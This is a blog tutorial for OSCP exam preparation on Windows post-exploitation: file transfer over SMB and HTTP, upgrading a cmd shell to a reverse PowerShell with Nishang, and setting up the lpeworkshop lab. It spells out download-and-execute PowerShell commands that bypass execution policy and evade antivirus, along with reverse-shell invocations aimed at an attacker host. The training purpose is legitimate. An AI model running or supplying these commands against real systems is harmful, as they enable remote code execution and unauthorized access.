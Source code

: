 ```yaml
---
title: OSCP Windows PrivEsc - Part 1
description: Windows Privilege Escalation for OSCP
categories: [oscp]
tags: [oscp, Offensive Security]
---
```


As stated in the [OSCP Review Post](/oscp/OSCP-Review), I came across many good resources for Linux Privilege Escalation but there were just a few for Windows. [lpeworkshop](https://github.com/sagishahar/lpeworkshop) being one of those, lacks a good walkthrough. In this writeup, we will take a look at file transfer over smb and http, how to migrate to PowerShell from a standard cmd shell and lpeworkshop setup.
{: .text-justify}

---
## File transfer over SMB

While there are numerous methods to transfer files from your host Kali to victim Windows, I found SMB to be the most reliable one. 
- Install impacket on your kali (It comes preinstalled most of the times, located at /usr/share/impacket/examples/).
- Start the SMB server by running `smbserver.py`:  
![image-center](/assets/images/oscp/1/smbshare.png)
This will share the `/tmp/smbshare` directory over smb as `myshare`.
- All the files inside `/tmp/smbshare` can now directly be accessed on the victim windows:  
![image-center](/assets/images/oscp/1/smbshare1.png)
- For more convenience, this SMB share can be  mounted directly on the windows as a drive:
	- Check currently mounted shares by running `net use`:
	- Mount your `myshare` as drive `Z` (or any other letter) using the command
	`net use Z: \\<IP>\myshare`
		![image-center](/assets/images/oscp/1/smbmount.png)
- Now, you can simply change dir to `Z` and browse the shared files as a drive on the victim system.  
![image-center](/assets/images/oscp/1/smbmount2.png)
- The mount can be disconnected with command `net use Z: /d` once you are done with it.   
{: .text-justify}

Another easy way to transfer files is over http using python's SimpleHTTPServer or Apache. We will take a look at it and download files using PowerShell in the following section.
{: .text-justify}

---
## PowerShell

PowerShell provides an easy way to perform post exploitation and privilege escalation activities with the help of various PS modules. Two of the most useful modules that I came across were: [Nishang's Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and [Powersploit's PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)   
{: .text-justify}

While most of the newer Windows OS have a functional antivirus monitoring and prohibiting the execution of programs from storage, PowerShell provides us with an option to bypass this and run programs directly from the memory. This can help us evade the antivirus and easily run exploits or post-exploitation scripts.
1. Share your files using python's `SimpleHTTPServer` or Apache.   
![image-center](/assets/images/oscp/1/http1.png)
2. On the victim's cmd shell, execute the command:
`powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/testfile'))"`
This downloads `testfile` and executes it in the memory.  
![image-center](/assets/images/oscp/1/http2.png)
{: .text-justify}

### Upgrading to PowerShell from cmd using Nishang

The `Invoke-PowerShellTcp.ps1` can be used to get an interactive Reverse or Bind PowerShell from the target. This script is able to connect to an attacker's netcat listener using -Reverse switch or an attacker's netcat can connect to this script Bind to a specific port on the victim when using -Bind switch. For this exercise, we are assuming that you already have access to the victim (web command injection or a cmd shell using eternalblue/any other exploit) and will look at how this cmd shell can be upgraded to an interactive reverse PowerShell.
{: .text-justify}

### Method 1: Using HTTP to evade Antivirus

We will share our `Invoke-PowerShellTcp.ps1` over http, download it to the victim, and execute it inside memory to send a reverse PowerShell.
1. Start python's `SimpleHTTPServer` and copy the `Invoke-PowerShellTcp.ps1` to that directory.   
![image-center](/assets/images/oscp/1/httpps1.png)
2. Start netcat listener on your Kali (always prefer using standard ports such as 80,443,53 since they have less chances of being blacklisted on the victim's firewall).
3. On the victim, we can download and execute this script using command: `powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"`   
![image-center](/assets/images/oscp/1/httpps2.png)
4. This sends an interactive reverse PowerShell to our kali on port 443:  
![image-center](/assets/images/oscp/1/httpps3.png) 
5. This script can also be used to setup a bind shell on the victim using `-Bind` switch but I preferred using reverse shells in the PWK lab.
{: .text-justify}

### Method 2: Using SMB (Gets blocked by Windows AV)

While this method is convenient for sharing multiple files over smb, but since we are executing `Invoke-PowerShellTcp.ps1` from storage (drive Z), it has a good chance of getting blocked by the Windows Antivirus. 
1. On your Kali, copy `Invoke-PowerShellTcp.ps1` inside `myshare` and start the smbserver. 
2. Start netcat listener on Kali.
3. You can mount the smbshare as Z, change dir to Z, and execute the script with command:
`powershell.exe -nop -ep bypass -c "Import-Module .\Invoke-PowerShellTcp.ps1; Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"`
![image-center](/assets/images/oscp/1/ps2.png)
(Note: I disabled windows AV for this exercise)
4. This sends a fully interactive PowerShell to our kali on port 443:  
![image-center](/assets/images/oscp/1/ps3.png)
{: .text-justify}

---
### Command breakdown

Let's see the breakdown:   
`powershell.exe -nop -ep bypass -c "<Command>"` : We are executing powershell using three arguments:
1. `-nop` or `NoProfile` : This option means that the currently active user’s profile will not be loaded.
2. `-ep bypass` or `-ExecutionPolicy Bypass` : Execution Policy restricts script execution on most systems on the default setting This can be overcome by giving Bypass value to the value of -ExecutionPolicy parameter. 
3. `-c` or `-Command` : This is used to specify a command to be executed.
	- `"iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'))` : This part of the command downloads the `Invoke-PowerShellTcp.ps1` file.
	- `Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"` : These are the arguments passed to `Invoke-PowerShellTcp.ps1` module. More arguments or examples can be seen on Nishang's github.
	- Pro tip: you can append the `Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <port>` to your `Invoke-PowerShellTcp.ps1`. This way, your final command for reverse shell would just be downloading and invoking the module, you don't have to pass the arguments anymore:
	`powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'))`
{: .text-justify}

---
## lpeworkshop
For the setup, we need three things:
1. Windows 7/10
We can grab a free copy of Windows Evaluation versions directly from [Microsoft](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/) or from [magnetikonline's github repo](https://github.com/magnetikonline/linux-microsoft-ie-virtual-machines). Prefer getting a Windows 7 as this workshop was developed and tested on a Windows 7 (SP1) x64 host. 
2. [Windows Exercises Setup Script](https://github.com/sagishahar/lpeworkshop/blob/master/lpe_windows_setup.bat)
3. [Tools for Windows Exercises](https://drive.google.com/file/d/1Lgg3HXXltB7ZD3F5YSbRl6FX7h_mPzFU/view?usp=sharing) (7z archive password: lpeworkshop)  
{: .text-justify}

[Note: Take a snapshot of the windows VM before starting the setup]  
The setup is fairly simple: Copy the lpe_windows_setup.bat script to VM and run it as an Administrator. A few exercises will not be setup (1,9,14) as those are platform specific and are not included in the setup script.
{: .text-justify}

In the next part, we will go through the exercises from lpeworkshop and see how we can indentify and exploit the vulnerabilties with the help of `PowerUp1.ps1` 

---
## Additional resources

- [Windows PrivEsc using powershell](https://hacknpentest.com/windows-privilege-escalation-using-powershell/)
- [lpeworkshop walkthrough by J3rryBl4nks](https://github.com/J3rryBl4nks/LPEWalkthrough)